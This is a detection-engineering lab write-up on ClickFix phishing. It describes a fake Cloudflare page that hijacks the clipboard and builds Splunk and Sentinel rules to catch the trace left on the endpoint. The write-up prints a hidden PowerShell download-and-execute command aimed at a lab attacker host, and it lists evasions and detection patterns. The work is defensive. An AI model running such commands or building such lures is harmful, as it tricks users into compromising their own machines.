




# T1566.002 / T1204.004 — ClickFix: Phishing That Makes the User Run the Payload


# 1. Scenario

Phishing is not one technique — it is two different attacks under one ID:

- **Malware delivery** (attachment/link → payload) → endpoint compromise. `winword.exe → powershell.exe` is one of the cleanest signals in the industry — but this half is **dying**, killed off once Microsoft began blocking internet-sourced macros by default.
- **Credential/token theft** (AiTM proxies like Evilginx) → identity compromise with **no endpoint telemetry at all**. This half is growing, but it lives in IdP logs this lab doesn't have (see §11).

Between the dying macro half and the identity half sits the modern endpoint-visible attack: **ClickFix**. It replaced macros as the delivery mechanism of choice, and unlike AiTM it leaves a clear endpoint trace.

> ClickFix's insight is social, not technical: instead of exploiting the machine, it exploits the *user*. A fake "verify you're human" page silently copies a PowerShell payload to the clipboard and instructs the victim to press Win+R, Ctrl+V, Enter. The user runs the attacker's command **with their own hands**. There is no macro, no exploit — just `explorer.exe → powershell.exe` and a person who was told this would fix their browser.

This writeup builds the full attack — a working fake-verification lure with clipboard hijack — and then a three-signal detection that catches its endpoint trace.

---

# 2. Attack Simulation — Building a Real ClickFix Lure

A detection is only as honest as the attack it's tested against. Earlier attempts here ran `iwr | iex` by hand — but *typing a command into PowerShell is not phishing*. Real ClickFix has a delivery mechanism: a lure page that weaponises the clipboard. So the lab builds one.

### The fake verification page

A page mimicking a Cloudflare "I am not a robot" check, served from the attacker host:

[Clickfix Fake Verification Page](../../payload/clickfix.html)

The mechanics that make it work:
- **Clipboard hijack** — clicking "I am not a robot" runs `execCommand('copy')`, silently placing the PowerShell payload on the clipboard. The user thinks they clicked a CAPTCHA; they actually loaded an attack into their paste buffer.
- **The instructions appear only after the copy** — Win+R, Ctrl+V, Enter. The user pastes and runs the command themselves.
- **The payload is stealth-flagged** — `-ExecutionPolicy Bypass -WindowStyle Hidden`, then `IEX (New-Object Net.WebClient).DownloadString(...)` to pull and run the second stage.



### Why this matters for detection

Because the user launches it via Win+R, the process is spawned by **explorer.exe** — the genuine ClickFix parent chain. This is what separates a real simulation from typing into a shell: the endpoint trace is `explorer.exe → powershell.exe -w hidden`, exactly what a real ClickFix attack produces. The lab confirmed this chain (see §6), where a hand-typed test never would have.

This is the delivery mechanism (T1204.004, Malicious Copy and Paste) — the social-engineering layer (the fake page, the CAPTCHA framing) lives in the browser and is invisible to endpoint telemetry; what the endpoint *can* see is the moment the pasted command runs.

---

# 3. Lab Setup

| Component | Detail |
|---|---|
| Lure | Fake Cloudflare page, clipboard hijack, served from Kali `:80` |
| Payload host | `python3 -m http.server 80` on Kali, serving `x.ps1` |
| Process telemetry | Sysmon EID 1 (`explorer.exe → powershell.exe`) |
| Command telemetry | PowerShell Script Block Logging, EID 4104 |
| Network telemetry | Sysmon EID 3 (`powershell.exe → attacker IP`) |
| Risk store | `index=risk` |

### Enabling the telemetry

Script Block Logging was **not on by default** and had to be enabled — this is the single most important prerequisite (see §5):

```powershell
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Force
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" `
    -Name "EnableScriptBlockLogging" -Value 1
```

---

# 4. The Rule — Three Signals, Hardened

[SPL_Query](../../Rules/Splunk-SPL/Initial-Access/phishing.spl)

ClickFix leaves three separate traces, and the detection scores their overlap:

1. **spawn (EID 1)** — a script host launched from `explorer.exe` (Win+R paste) or `cmd.exe` (cascade), with stealth flags. The delivery signature.
2. **command content (EID 4104)** — `IEX ... DownloadString`, `iwr | iex`, `mshta http`. What actually ran, de-obfuscated by PowerShell itself.
3. **network (EID 3)** — the script host reaching an external IP. The payload actually downloading.

The rule below is the hardened version — two rounds of adversary-bypass analysis (§8) reshaped it: broadened script hosts, `explorer → cmd → powershell` cascade, browser-vs-explorer delivery split, and `streamstats` correlation replacing fixed bins.

The Kali IP (`192.168.56.102`) is explicitly treated as external because it sits on the lab's internal range (`192.168.56.x`); in production that clause is removed and only genuinely external destinations count.

---

# 5. The Telemetry Journey — Why Script Block Logging Was the Key

The single hardest part of this detection was getting the telemetry, and it produced a real lesson.

**Sysmon EID 1 silently missed the ClickFix PowerShell.** The config logs process creation and does *not* exclude powershell — yet hand-typed test commands never appeared in EID 1. A user-process audit (`stats count by User`) proved Sysmon was logging the user's processes (3946 of them) and even other powershell instances from services — but the interactive test commands weren't landing where expected.

**Script Block Logging (EID 4104) was the fix — and it's a better source anyway.** EID 1 tells you a process started; 4104 tells you *what it ran*. For ClickFix, the command content (`IEX ... DownloadString`) is the signal, so 4104 is the right primary telemetry, not a fallback. Once enabled, it captured the payload verbatim — including test commands from *before* it was switched on, since PowerShell's operational log retains recent history.

The lesson: **for command-based detections, process-creation logging is necessary but not sufficient — Script Block Logging is what carries the intent.** It has to be explicitly enabled; it is off by default.

---

# 6. Two Silent-Failure Bugs

### 6.1 The `frombase64string` false positive

The first rule flagged `frombase64string` as an encoded-payload indicator. It fired immediately — on a huge script containing `$EncodedCommand`, `ParseInput`, `Get-RawCommandElements`. That script was **PowerShell's own internal `-EncodedCommand` decode engine**, not an attack. PowerShell uses `FromBase64String` as part of normal operation, so the indicator was matching the interpreter against itself: query runs, plausible output, quietly wrong.

Fix: drop `frombase64string` as a standalone indicator. The real ClickFix signature is the **network+execution combination** (`IEX ... DownloadString(http`, `iwr ... | iex`) — a pattern PowerShell's own machinery never produces. Same silent-failure class as the hex-case and `match()` bugs in earlier writeups: normalise/verify before trusting a pattern.

### 6.2 The network port filter

`powershell → 192.168.56.102:80` didn't appear in EID 3 at first, even though `Test-NetConnection` proved the connection succeeded. The SwiftOnSecurity Sysmon config filters NetworkConnect: powershell is an included Image, but the config pairs it with a **suspicious-port list** (SSH, RDP, Metasploit 4444, Tor, Proxy 8080) — port 80/443 are excluded as noise. Standard HTTP payload downloads are therefore a blind spot in EID 3.

Once a real connection was established (Kali server actually listening), the EID 3 record did land at `:80` — the earlier misses were because the connection hadn't truly been made. Worth recording: **real C2 tends to favour non-standard ports precisely because 80/443 are too noisy to log everywhere** — which is why the config watches 4444/8080/Tor and not 80. The 4104 command signal covers the 80/443 blind spot, which is the value of layering.

### 6.3 Bin alignment → streamstats

Command (4104) and network (EID 3) fired seconds apart but a `bin span=2m` boundary split them into separate windows, so the correlation showed `has_network=0` even though both existed. Widening to `span=5m` was a band-aid; the real fix (from the bypass analysis, §8 #5) was to drop fixed bins entirely for `streamstats time_window=10m` per host — a rolling window that also defeats short delayed-execution evasions. The same fixed-bin fragility as the T1110 time-grouping bug, resolved the same way.

---

# 7. Validation

A single run of the full lure — fake page → click → Win+R → Ctrl+V → Enter — produced the complete chain:

| Signal | Evidence |
|---|---|
| `explorer.exe → powershell.exe` | `-ExecutionPolicy Bypass -WindowStyle Hidden` |
| Command (4104) | `IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.102/x.ps1')` |
| Network (EID 3) | `powershell.exe → 192.168.56.102:80` |

The hardened rule produced a single row capturing the whole chain, with four indicators firing at once:

| field | value |
|---|---|
| delivery_method | `clickfix_paste` (explorer parent — real ClickFix, not drive-by) |
| indicators | `download_exec`, `dynamic_exec`, `encoded_command`, `proc_download` |
| has_cmd / has_spawn / has_network | 1 / 1 / 1 |
| signal_count | **3** |
| dest_ip | `192.168.56.102` |
| risk_score | **61.75** |

| signal_count | Meaning | risk_score |
|---|---|---|
| 3 | spawn + command + download | **61.75** |
| 2 | spawn + command (no network yet) | 58.50 |
| 1 | command only | 55.25 |

The graded output is the design working: even a single signal alerts (55.25), but all three together — spawned from Win+R, running an IEX-download, actually reaching out — is near-certain ClickFix at **61.75**. `delivery_method=clickfix_paste` confirms the `explorer.exe` parent — the command came through the Run dialog, exactly as the lure's Win+R instruction intended, and not from a browser (which would classify as drive-by, see §8).

### 7.1 Validation in Splunk



---

# 8. Adversary Bypass Analysis

The first working rule (§4's earlier form) caught the lab's own lure but was brittle against a thinking adversary. Two rounds of red-team review found concrete evasions; each one reshaped the rule. This is the section that separates a rule that passes its own test from one that survives contact.

### Bypasses found and closed

| # | Bypass | Why the naive rule failed | Fix |
|---|---|---|---|
| 1 | **Non-PowerShell hosts** — `mshta http://…`, `cscript`, `cmd` | `Image="*powershell.exe"` misses them entirely | Broadened script-host list to mshta/cmd/wscript/cscript/rundll32/certutil/bitsadmin; per-host indicators (`mshta_remote`, `lolbin_download`) |
| 2 | **`explorer → cmd → powershell` cascade** — `cmd /c start /min powershell -e …` | The intermediate `cmd.exe` makes powershell's parent `cmd`, not `explorer` — `ParentImage=explorer` bypassed | Added `cmd_cascade` delivery: `cmd.exe` parent counts when its command line carries the ClickFix signature |
| 3 | **Browser parent ≠ ClickFix** — `chrome.exe → powershell` | Genuine ClickFix is *always* explorer-parented (the user pastes into Win+R); a browser parent is a different technique | Split delivery: `clickfix_paste` (explorer) vs `browser_driveby` (browser). Browser-parent is drive-by/exploit, scored separately at impact 75 — a bonus detection, not a blurred one |
| 4 | **Encoded command** — `powershell -enc <base64>` | Plaintext regexes (`downloadstring`) never match the base64 | `encoded_command` flags `-enc` at the process layer without decoding; the Script Block log (4104) captures the *decoded* command PowerShell itself expands, so `download_exec` still fires |
| 5 | **Delayed execution + bin split** — `Start-Sleep 360`, or spawn at 12:04:59 / network at 12:05:01 | A fixed `bin span=5m` drops the network signal into a different bucket | Replaced `bin` with `streamstats time_window=10m` per host — spawn, command, and network correlate across a rolling window, not fixed buckets |
| 6 | **Wrong timestamp** — `max(_time)` stamps the host's latest log, not the attack | Triage points at the wrong moment | `bad_time = if(signal, _time, null())`, then `max(bad_time)` — the risk event carries the attack's actual time |

### The browser-parent insight

The sharpest correction was #3. Adding browser parents *felt* like strengthening ClickFix coverage, but ClickFix is social engineering — the victim pastes into Win+R, so the parent is **always `explorer.exe`**. A `chrome.exe → powershell` chain isn't ClickFix at all; it's a browser exploit / drive-by download. Rather than delete it, the rule keeps it under a separate `browser_driveby` label at higher impact — the same query now covers two techniques cleanly instead of conflating them.

### What still evades this rule (honest limits)

- **Variable-splitting obfuscation** — `$a='Down';$b='loadString'; …` defeats static regexes even in the 4104 log. True coverage needs AMSI/behavioural analysis, not pattern matching.
- **Multi-layer encoding** — base64 within base64; a single decode layer isn't enough, and the rule intentionally doesn't decode (it flags `-enc` and relies on 4104's expansion).
- **Very long delays** — `Start-Sleep 3600` outruns even a 10-minute `streamstats` window; any bounded correlation has a horizon.
- **DoH / CDN destinations** — an attacker behind Cloudflare/CloudFront makes the "external IP" signal noisy at scale; network is deliberately a *supporting* signal here (it only counts alongside a spawn or command), never primary.

### Why it maps to T1204.004, not just T1059

The command that runs (`IEX ... DownloadString`) is PowerShell execution (T1059.001). But the *technique* is what got it there: a lure that socially engineered the user into pasting and running it (T1204.004, Malicious Copy and Paste), delivered as a phishing link (T1566.002). The parent chain plus stealth flags is the fingerprint of copy-paste delivery, not of a script the user wrote — which is why the rule scores delivery (`clickfix_paste` / `cmd_cascade`), not just the command.

---

# 9. Sentinel Port — KQL, and the Ingestion War

The same detection was ported to Microsoft Sentinel. The detection logic translated cleanly; **getting the telemetry into Sentinel was the hard part** — and it produced a lesson about cloud-SIEM infrastructure that on-prem Splunk never surfaces.

### The ingestion war

Splunk read `Microsoft-Windows-PowerShell/Operational` directly. Sentinel needs that log shipped through the Azure Monitor Agent (AMA) via a Data Collection Rule (DCR). On paper trivial; in practice, four hours:

- **Everything was "correct" and nothing arrived.** DCR present, XPath valid, destination = the right workspace, AMA extension `Succeeded`, association in place. Yet no PowerShell events — and, it turned out, no *Sysmon* events either since 8/4.
- **Root cause 1 — the ingestion pipeline was stalled.** The Usage chart showed ingestion peaking 8/3–8/4 then flatlining to zero. The `Operation` table showed the reason: `Ingestion / Invalid XML / Exception has been thrown by the target of an invocation`. A malformed event batch had jammed AMA's queue; it kept retrying the bad batch and shipped nothing. Not billing (subscription Active, $200 credit), not config — a stuck agent.
- **The fix:** uninstall and reinstall the AMA extension. That cleared the poisoned queue; `Get-Process MonAgent*` came back, and Sysmon started flowing again.
- **Root cause 2 — the XPath filter was silently rejected.** Even with data flowing, PowerShell didn't arrive while Sysmon did. The only difference: Sysmon's DCR used a bare `Microsoft-Windows-Sysmon/Operational!*`, while PowerShell's used a filtered `...!*[System[(EventID=4104 or EventID=4103)]]`. AMA silently dropped the filtered form. Rewriting it bare — `Microsoft-Windows-PowerShell/Operational!*`, filtering in KQL instead — and PowerShell finally landed in the `Event` table.

The lesson: **on a cloud SIEM, the detection is only half the work — telemetry delivery is a first-class problem.** A stuck agent queue and a rejected XPath filter have nothing to do with detection logic, but they're exactly the infrastructure failure a real SOC engineer owns. Splunk reading a local WinEventLog never exposes this class of problem.

### A reusable parser function

Rather than re-parse the raw event XML in every PowerShell detection, parsing was factored into a saved function, `PowerShellEvents` — the same pattern already used for Sysmon. It parses `EventData`, surfaces clean fields (`HostApplication`, `ScriptBlock`, `PSUser`, `FullText`), and every PowerShell detection builds on top of it:

```kql
Event
| where Source == "Microsoft-Windows-PowerShell"
| where EventID in (4103, 4104)
| extend ed = parse_xml(EventData)
| extend DataArr = ed.DataItem.EventData.Data
| extend ContextInfo = tostring(DataArr[0]["#text"])
| extend Payload = tostring(DataArr[2]["#text"])
| extend ScriptBlock = tostring(DataArr[0]["#text"])
| extend FullText = tolower(strcat(ContextInfo, " ", Payload))
| extend HostApplication = extract(@"(?i)host application = (.+?)\s+engine version", 1, FullText)
| extend PSUser = extract(@"(?i)user = ([^\s]+\\[^\s]+)", 1, FullText)
| project TimeGenerated, Computer, EventID, PSUser, HostApplication, ScriptBlock, ContextInfo, Payload, FullText, _ResourceId
```

### The detection

```kql
PowerShellEvents
| where TimeGenerated > ago(1h)
// pre-filter: cheap has_any before expensive regex — regex only runs on candidates
| where FullText has_any ("downloadstring","downloadfile","net.webclient","iwr","invoke-webrequest","iex","invoke-expression")
| where FullText has "http"
| where FullText matches regex @"(?i)(downloadstring|downloadfile|net\.webclient|iwr|invoke-webrequest).*https?://"
    or FullText matches regex @"(?i)(iex|invoke-expression).*(downloadstring|net\.webclient|iwr|http)"
// case ordered most-specific → most-general: download+exec combo scores highest
| extend clickfix_cmd = case(
    FullText matches regex @"(?i)(downloadstring|net\.webclient).*https?://.*(iex|invoke-expression)"
        or FullText matches regex @"(?i)(iex|invoke-expression).*(downloadstring|net\.webclient).*https?://", "download_and_exec",
    FullText matches regex @"(?i)(iwr|invoke-webrequest).*https?://.*(iex|invoke-expression)", "download_pipe_exec",
    FullText matches regex @"(?i)(downloadstring|downloadfile|net\.webclient|iwr|invoke-webrequest).*https?://", "download_exec",
    "dynamic_exec")
// dedupe: one PowerShell run emits many 4103s (one per cmdlet) sharing a Host ID — collapse to one
| extend HostID = extract(@"(?i)host id = ([0-9a-f\-]+)", 1, FullText)
| summarize TimeGenerated = min(TimeGenerated), event_count = count(),
            clickfix_cmd = take_any(clickfix_cmd)
    by Computer, PSUser, HostApplication, HostID
| extend impact = 65
| extend confidence = case(
    clickfix_cmd == "download_and_exec", 0.90,
    clickfix_cmd == "download_pipe_exec", 0.85,
    clickfix_cmd == "download_exec", 0.80, 0.70)
| extend risk_score = round(impact * confidence, 2)
| project TimeGenerated, Computer, PSUser, clickfix_cmd, HostApplication, event_count, risk_score
```

Three KQL-specific hardening points, each a real bug caught in review:
- **`(?i)` on every regex + `tolower()` in the function.** KQL `matches regex` is case-sensitive; a lowercase `net.webclient` would slip a `(?i)`-less pattern. Belt and braces.
- **`has_any` pre-filter before regex.** `matches regex` is the most expensive KQL operator; gating it behind a cheap indexed `has` keeps the query from melting on a high-volume PowerShell feed.
- **`case` ordered most-specific first.** `(New-Object Net.WebClient).DownloadString('http://…'); iex $a` is *both* a download and a dynamic exec. Checking the combination first labels it `download_and_exec` (0.90) instead of the weaker `download_exec` (0.80) it would collapse to if the general rule ran first.

### The 4103 noise problem

Sentinel's `Event` table carried mostly **4103** (module logging), not 4104. A single ClickFix run emits one 4103 *per cmdlet* — `New-Object`, `Set-StrictMode`, `DownloadString`, `Out-Default` — all carrying the same `Host Application`, all matching the rule. One execution produced 6–7 alerts. The fix is `summarize by HostID`: every 4103 from one run shares a `Host ID`, so collapsing on it yields one row per execution with `event_count` recording how many cmdlets it fanned into. Validated: one lure run → one alert, `event_count = 6`, `download_and_exec`, risk 58.5.

### Validation & Analytics rule

Built as a Scheduled query rule (Sentinel > Analytics), Medium severity, mapped to T1566.002 / T1204.004, entity mapping **Account → `PSUser`**, **Host → `Computer`** (the RBA-equivalent). Confirmed producing Sentinel incidents in Defender: the full command — `powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.102/x.ps1')` — surfaced as `download_and_exec`, risk 58.5.

### Platform portability

| Concern | Splunk | Sentinel (KQL) |
|---|---|---|
| Command telemetry | `index=windows_powershell` 4104, `ScriptBlockText` native | `Event` table 4103/4104, `parse_xml(EventData)` via `PowerShellEvents` function |
| Case-insensitivity | `match(...,"(?i)...")` | `(?i)` + `tolower()` — KQL regex is case-sensitive |
| Performance | tstats/scan | `has_any` pre-filter gates expensive `matches regex` |
| Per-run dedupe | `stats ... by Computer` | `summarize ... by HostID` (4103 fans out per-cmdlet) |
| Correlation | `streamstats time_window=10m` across spawn/cmd/net | three-source join (`Sysmon` EID1 + `PowerShellEvents` + `Sysmon` EID3), time-windowed |
| Telemetry delivery | local WinEventLog, trivial | AMA + DCR — stuck-queue and XPath-filter failures solved first |

The biggest platform difference wasn't the query language — it was that **Splunk read the log locally while Sentinel required repairing an entire ingestion pipeline** (AMA reinstall, Invalid-XML queue flush, bare-XPath rewrite) before a single event arrived.

### The three-signal detection

The single-source rule above works but scores the PowerShell log alone. The full rule joins three sources in the `Event` table — the same three-signal shape as Splunk — using two saved parser functions (`Sysmon` and `PowerShellEvents`) so no raw XML parsing appears in the detection itself:


[KQL_Query](../../Rules/Sentinel-KQL/Initial-Access/phishing.kql)


Notes carried over from review:
- **Two functions, no raw XML in the rule.** `Sysmon` and `PowerShellEvents` do the parsing once; the detection reads clean fields (`ParentImage`, `CommandLine`, `DestinationIp`, `FullText`) exactly as the Splunk rule reads Sysmon's.
- **`isnotempty(DestinationIp)` guard** before `ipv4_is_private` — an empty extract would otherwise error the whole query.
- **No `ago()` in the rule.** Time range is owned by the Analytics rule's scheduling, not baked into the KQL.
- **Join is on `Computer` then time-windowed** (`between proc_time-30s .. proc_time+10m`). On a single host with low volume this is fine; a high-volume fleet would need a binned key to avoid a cartesian blow-up before the time filter runs — noted as a scaling limit.

### Validation

One lure run produced the full chain on Sentinel, identical to Splunk:

| field | value |
|---|---|
| delivery_method | `clickfix_paste` (explorer parent) |
| indicators | `dynamic_exec`, `proc_download`, `encoded_command` |
| has_spawn / has_cmd / has_network | 1 / 1 / 1 |
| dest_ip | `104.20.23.154` (external CDN), `192.168.56.102` (lab) |
| signal_count | **3** |
| risk_score | **61.75** — Medium |

Same score as Splunk (61.75), same three signals, same `clickfix_paste` classification. The detection is now symmetric across both platforms.

### Validation in Sentinel 




### Alerts in Sentinel 



---

# 10. RBA Integration

The feeder emits `risk_object=host` (the compromised machine). A real ClickFix incident then chains naturally: this drop-and-execute is the initial foothold, and any follow-on — credential access, persistence, lateral movement — accumulates on the same host in `index=risk`, pushing `technique_count` past the correlation threshold. ClickFix is the entry point; RBA assembles the rest of the intrusion around it.

---

# 11. ATT&CK Mapping

| Technique | Relationship |
|---|---|
| [T1566.002](https://attack.mitre.org/techniques/T1566/002/) | Primary — phishing link to the lure page |
| [T1204.004](https://attack.mitre.org/techniques/T1204/004/) | Malicious Copy and Paste — the clipboard-hijack delivery |
| [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | The pasted command is PowerShell execution |
| [T1105](https://attack.mitre.org/techniques/T1105/) | `DownloadString` pulls the second stage |

---

# 12. Limitations & Production Readiness

**Validated:** a working ClickFix lure (fake Cloudflare page + clipboard hijack); three-signal Splunk detection (spawn + script block + network) correlated on real telemetry at `signal_count=3` → 61.75, four indicators firing at once; hardened through two rounds of bypass analysis (§8) closing six evasions; **ported to Sentinel** (§9) with a reusable `PowerShellEvents` parser function, three KQL-specific fixes, and per-run dedupe — producing Medium incidents at risk 58.5 after repairing the AMA/DCR ingestion pipeline.

**Not production-ready / out of scope:**
- **AiTM / credential phishing — impossible in this lab.** The growing half of phishing (token theft via Evilginx-style proxies) leaves no endpoint trace; it needs IdP telemetry. This tenant is free-tier: no Entra ID P2, `SigninLogs` empty, Identity Protection connector shows a licence ✗. The AiTM tell (session token with device/browser fingerprint mismatch) cannot be detected or even simulated here. This is the honest reality of many small environments, not just the lab.
- **Email gateway layer absent** — envelope/header sender mismatch, DMARC reject, punycode/typosquat detection all require SEG telemetry this lab doesn't have.
- **Port 80/443 network blind spot** — the Sysmon config excludes standard web ports from NetworkConnect; the command signal (4104) covers it, but pure-network detection of an HTTP download is not possible under this config.
- **`explorer.exe` parent is evadable** — an attacker can chain through an intermediate process; the command and network signals still fire, but `has_explorer` would drop to 0.
- **Sentinel now matches Splunk's three-signal model.** PowerShell flows to Sentinel (§9), and the rule joins `Sysmon` EID 1 (parent → `clickfix_paste`/`cmd_cascade`/`browser_driveby`), `PowerShellEvents` (command), and `Sysmon` EID 3 (external connection) — validated at `signal_count=3` → 61.75, identical to Splunk. Remaining scaling caveat: the three-way join keys on `Computer` then time-windows, which is fine on a single host but would need a binned key on a high-volume fleet to avoid a cartesian expansion before the time filter applies.

**Next:** Sentinel KQL port once 4104 ingestion via DCR is working; sessionizing to replace fixed bins; extend to `mshta`/`curl`/`certutil` copy-paste variants.

